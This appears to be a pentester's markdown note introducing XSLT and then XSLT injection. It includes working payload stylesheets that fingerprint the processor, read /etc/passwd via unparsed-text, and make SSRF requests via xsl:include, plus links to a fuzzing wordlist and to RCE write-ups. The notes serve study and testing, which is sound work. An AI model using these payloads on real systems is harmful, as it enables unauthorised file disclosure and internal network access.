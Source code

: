 ```yaml
---
aliases:
  - XSLT
---
```

>[!faq] What is XSLT?
>Extensible Stylesheet Language Transformations (`XSLT`) is an XML-based language usually used when transforming XML documents into HTML, another XML document, or PDF.

# XSLT 101

```bash
sudo apt install default-jdk libsaxon-java libsaxonb-java
```

We need to understand the XSLT format to see how the transformation works.
- The first line is usually the XML version and encoding
- Then there is the XSL root node `xsl:stylesheet`
- Then, we will have the directives in `xsl:template match="<PATH>"`. In this case, it will apply to any XML node.
- After that, the transformation is defined for any item in the XML structure matching the previous line.

To select certain items from the XML document, XPATH language is used in the form of `<xsl:value-of select="<NODE>/<SUBNODE>/<VALUE>"/>`.

*catalog.xml*
```xml
<?xml version="1.0" encoding="UTF-8"?>
<catalog>
  <cd>
    <title>Empire Burlesque</title>
    <artist>Bob Dylan</artist>
    <country>USA</country>
    <company>Columbia</company>
    <price>10.90</price>
    <year>1985</year>
  </cd>
  <cd>
    <title>Hide your heart</title>
    <artist>Bonnie Tyler</artist>
    <country>UK</country>
    <company>CBS Records</company>
    <price>9.90</price>
    <year>1988</year>
  </cd>
  <cd>
    <title>Greatest Hits</title>
    <artist>Dolly Parton</artist>
    <country>USA</country>
    <company>RCA</company>
    <price>9.90</price>
    <year>1982</year>
  </cd>
</catalog>
```

*transformation.xsl*
```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
  <html>
  <body>
    <h2>My CD Collection</h2>
    <table border="1">
      <tr bgcolor="#9acd32">
        <th>Title</th>
        <th>Artist</th>
      </tr>
      <tr>
        <td><xsl:value-of select="catalog/cd/title"/></td>
        <td><xsl:value-of select="catalog/cd/artist"/></td>
      </tr>
    </table>
  </body>
  </html>
</xsl:template>
</xsl:stylesheet>
```

# XSLT Injection

XSLT Injection can occur when arbitrary XSLT file upload is possible or when an application generates the XSL Transformation’s XML document dynamically using unvalidated input from the user.

Referring to the example above, we can enumerate the underlying preprocessor with the following file:

*enum.xsl*
```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="html"/>
<xsl:template match="/">
    <h2>XSLT identification</h2>
    <b>Version:</b> <xsl:value-of select="system-property('xsl:version')"/><br/>
    <b>Vendor:</b> <xsl:value-of select="system-property('xsl:vendor')" /><br/>
    <b>Vendor URL:</b><xsl:value-of select="system-property('xsl:vendor-url')" /><br/>
</xsl:template>
</xsl:stylesheet>
```

```html
$ saxonb-xslt -xsl:enum.xsl catalogue.xml
<h2>XSLT identification</h2><b>Version:</b>2.0<br><b>Vendor:</b>SAXON 9.1.0.8 from Saxonica<br><b>Vendor URL:</b>http://www.saxonica.com/<br>
```

*full-enum.xsl*
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
 Version: <xsl:value-of select="system-property('xsl:version')" /><br />
 Vendor: <xsl:value-of select="system-property('xsl:vendor')" /><br />
 Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" /><br />
 <xsl:if test="system-property('xsl:product-name')">
 Product Name: <xsl:value-of select="system-property('xsl:product-name')" /><br />
 </xsl:if>
 <xsl:if test="system-property('xsl:product-version')">
 Product Version: <xsl:value-of select="system-property('xsl:product-version')" /><br />
 </xsl:if>
 <xsl:if test="system-property('xsl:is-schema-aware')">
 Is Schema Aware ?: <xsl:value-of select="system-property('xsl:is-schema-aware')" /><br />
 </xsl:if>
 <xsl:if test="system-property('xsl:supports-serialization')">
 Supports Serialization: <xsl:value-of select="system-property('xsl:supportsserialization')"
/><br />
 </xsl:if>
 <xsl:if test="system-property('xsl:supports-backwards-compatibility')">
 Supports Backwards Compatibility: <xsl:value-of select="system-property('xsl:supportsbackwards-compatibility')"
/><br />
 </xsl:if>
</xsl:template>
</xsl:stylesheet>
```

Based on the preprocessor, we can go to the XSLT documentation for this version to identify functions of interest:
- `unparsed-text`: can be used to read local files
- `xsl:include`: can be used to perform SSRF

*read.xsl*
```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:template match="/">
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')"/>
</xsl:template>
</xsl:stylesheet>
```

*ssrf.xsl*
```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:include href="http://127.0.0.1:5000/xslt"/>
<xsl:template match="/">
</xsl:template>
</xsl:stylesheet>
```

We can also use the following fuzzing wordlist specific for xsl [^xslt] to enumerate other available functionalities.

[^xslt]: [xslt.txt](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/xslt.txt), carlospolop

## Real Life Vulnerabilities

- [Getting XXE in Web Browsers using ChatGPT](https://swarm.ptsecurity.com/xxe-chrome-safari-chatgpt/)
- [XSLT to RCE](https://gosecure.ai/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/#:~:text=by%20the%20attacker.-,XSLT%20to%20RCE,-The%20XSLT%20processing)